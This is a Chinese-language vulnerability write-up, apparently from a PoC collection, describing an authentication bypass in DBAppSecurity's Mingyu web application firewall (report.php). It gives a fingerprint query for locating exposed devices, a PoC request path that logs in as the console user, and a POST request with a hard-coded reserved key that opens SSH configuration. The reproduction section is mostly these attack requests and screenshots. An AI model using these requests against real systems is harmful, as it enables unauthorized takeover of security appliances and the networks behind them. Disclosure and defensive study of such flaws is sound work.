 # 安恒 明御WEB应用防火墙 report.php 任意用户登录漏洞

## 漏洞描述

安恒 明御WEB应用防火墙 report.php文件存在硬编码设置的Console用户登录，攻击者可以通过漏洞直接登录后台

## 漏洞影响

<a-checkbox checked>安恒 明御WEB应用防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="安恒信息-明御WAF"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1658456619582-0ab677aa-d84e-47b1-96b2-481c66831947.png)

验证POC

```php
/report.m?a=rpc-timed
```

![img](../../../.vuepress/public/img/1658456645745-b626ae63-660a-4726-ad5d-efd6c4def0ee.png)

再访问主页面跳转配置页面

![img](../../../.vuepress/public/img/1658456684801-06c03840-87bc-41c5-a234-b8f0aa1ea244.png)

发送请求包配置系统SSH等

```php
POST /system.m?a=reserved
  
key=!@#dbapp-waf-dev-reserved#@!
```

![img](../../../.vuepress/public/img/1658541896143-bbbe633a-ce06-4e44-bb83-0806a3dde1a6.png)